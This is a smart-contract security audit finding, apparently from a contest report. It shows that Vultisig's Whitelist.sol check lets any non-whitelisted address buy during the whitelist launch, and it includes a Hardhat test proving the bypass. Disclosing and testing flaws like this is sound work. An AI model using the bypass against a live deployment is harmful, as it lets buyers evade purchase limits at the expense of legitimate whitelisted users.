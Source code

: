 ## [H] Vultisig whitelisting can be bypassed by anyone

Whitelist launch will be bricked. Anyone can buy tokens, and also bypass the 3 ETH limit by buying via other non-whitelisted accounts. This will have an impact on price and ruin the opportunities of legit whitelisted users.

Here's a diagram on the timelines of the launch. "WL Launch" is the affected phase.

### Vulnerability Details

The `checkWhitelist()` function makes an erroneous check here:

```solidity
    if (_allowedWhitelistIndex == 0 || _whitelistIndex[to] > _allowedWhitelistIndex) {
        revert NotWhitelisted();
    }
```

[Whitelist.sol#L216](repos/2024-06-vultisig/hardhat-vultisig/contracts/Whitelist.sol#L216)

`_allowedWhitelistIndex` is the [max index allowed](repos/2024-06-vultisig/hardhat-vultisig/contracts/Whitelist.sol#L38-L39), and works as a limit, not a whitelist flag. Once it is set (which must happen for all whitelists), any non-whitelisted user can bypass it. This is because `_whitelistIndex[to]` will be `0`, and `_whitelistIndex[to] > _allowedWhitelistIndex` will never revert (`0 > 1000`, for example).

### Proof of Concept

1. Add this test to `/2024-06-vultisig/hardhat-vultisig/test/unit/Whitelist.ts`.
2. Run the test `npx hardhat test`.

```typescript
it.only("Bypasses whitelisting", async function () {
    const { owner, whitelist, pool, otherAccount, mockOracleSuccess, mockContract } = await loadFixture(deployWhitelistFixture);

    await whitelist.setVultisig(mockContract);
    await whitelist.setLocked(false);
    await whitelist.setOracle(mockOracleSuccess);

    // `otherAccount` is not whitelisted and can't bypass the whitelist check
    await expect(whitelist.connect(mockContract).checkWhitelist(pool, otherAccount, 0)).to.be.revertedWithCustomError(
    whitelist,
    "NotWhitelisted",
    );

    // Until an `_allowedWhitelistIndex` limit is set
    // This value is intended as a limit, not as a flag not allow non-whitelisted users
    await whitelist.setAllowedWhitelistIndex(10);

    // `otherAccount` and any other user can now bypass the whitelisting
    await whitelist.connect(mockContract).checkWhitelist(pool, otherAccount, 0);
});
```




